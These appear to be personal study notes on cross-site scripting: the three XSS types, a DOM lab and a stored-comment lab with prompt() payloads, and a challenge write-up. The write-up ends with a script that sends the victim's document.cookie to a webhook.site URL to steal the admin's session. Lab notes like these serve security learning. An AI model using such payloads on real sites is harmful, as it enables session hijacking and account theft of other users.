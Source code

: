 It allows use to execute javascript code in the browser of the victim.

It is split in:
1. reflected, when we send data to a request (javascript code) to the server and it replies with this data we sent
	1. ![[Pasted image 20250104155943.png]]
2. Stored, when the data is stored in the server and then served to other victims
	1. ![[Pasted image 20250104160016.png]]
3. DOM-Based, when it happens locally in the browser without any interaction with the server (we change the html document without intercting with the server). It this case the page uses vulnerable javascript that gets untrusted input.
	1. ![[Pasted image 20250104160114.png]]


**In general `alert()` is used but now chrome blocks it so we prefer to use `print()` or `prompt("hello")`**
- ![[Pasted image 20250104160443.png]]


# DOM lab xss 0x01
We want to inject the add item  functionality:
- ![[Pasted image 20250104160602.png]]

If we look with the inspect of th browser we can see that what we put in input is injected into the html dom:
- ![[Pasted image 20250104160707.png]]
	- no request are generated when we add items

So we try a basilar input:
```javascript
<img src=x onerror="prompt(1)">
```
- ![[Pasted image 20250104160845.png]]

# Stored lab xss 0x02
One thing to see it work is to use firefox containers that allows to use different users on the same browser and different tabs:
- we have to add the extension `firefox multi-account containers`
- ![[Pasted image 20250104161252.png]]

So now we can use different contianers:
- ![[Pasted image 20250104161429.png]]

At this point we can start to inject.

We can see that we can post a comment:
- ![[Pasted image 20250104161503.png]]


So we try to use:
```javascript
<script> prompt(1)</script>
```
- ![[Pasted image 20250104161623.png]]

Since it is served from the server to other clients we have a stored xss.


# XSS challenge

The idea is to steal the admin cookie sending tickets.
We want to force the admin to send to our url the cookie.

To do it we want to use the support ticket functionality.

So we can use `webhook.site` in order to get requests.

So what we want to do is to send a xss in the ticket request:
```javascript
<script> var i = new Image; i.src="webhook_URL/?"+document.cookie;</script>
```


This will allow us to get the cookie of who executes the script.

In fact on `webhook` we can see:
- ![[Pasted image 20250104163309.png]]

